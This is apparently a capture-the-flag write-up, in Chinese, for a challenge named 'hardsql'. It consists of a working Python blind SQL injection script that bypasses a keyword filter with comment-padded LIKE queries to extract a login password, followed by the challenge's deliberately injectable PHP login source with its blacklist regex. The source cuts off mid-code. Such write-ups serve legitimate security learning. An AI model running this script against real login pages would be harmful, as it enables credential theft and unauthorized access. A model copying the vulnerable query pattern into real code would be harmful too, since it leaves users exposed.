 ### hardsql

脚本注出密码然后登陆

```python
import requests

url='http://1.14.71.254:28138/login.php'
str='abcdefghijklmnopqrstuvwxyz0123456789'
flag=''
for i in range(0,666):
    for j in str:
        data={"passwd":f"-1'/**/or/**/passwd/**/like/**/'{flag+j}%'#",
              "username":"bilala"
              }
        r=requests.post(url=url,data=data)
        #print(j)
        if "nothing found" not in r.text:
            flag+=j
            print(flag)
            if j=='}':
                exit()
            break
#b2f2d15b3ae082ca29697d8dcd420fd7
```

看到源码

```php
<?php
//多加了亿点点过滤

include_once("config.php");
function alertMes($mes,$url){
    die("<script>alert('{$mes}');location.href='{$url}';</script>");
}

function checkSql($s) {
    if(preg_match("/if|regexp|between|in|flag|=|>|<|and|\||right|left|insert|database|reverse|update|extractvalue|floor|join|substr|&|;|\\\$|char|\x0a|\x09|column|sleep|\ /i",$s)){
        alertMes('waf here', 'index.php');
    }
}

if (isset($_POST['username']) && $_POST['username'] != '' && isset($_POST['passwd']) && $_POST['passwd'] != '') {
    $username=$_POST['username'];
    $password=$_POST['passwd'];
    if ($username !== 'bilala') {
        alertMes('only bilala can login', 'index.php');
    }
    checkSql($password);
    $sql="SELECT passwd FROM users WHERE username='bilala' and passwd='$password';";
    $user_result=mysqli_query($MysqlLink,$sql);
    $row = mysqli_fetch_array($user_result);
    if (!$row) {
        alertMes('nothing found','index.php');
    }
    if ($row['passwd'] === $password) {
        if($password == 'b2f2d15b3ae082ca29697d8dcd420fd7'){
            show_source(__FILE__);
            die;
        }
        else{
            die($FLAG);
```
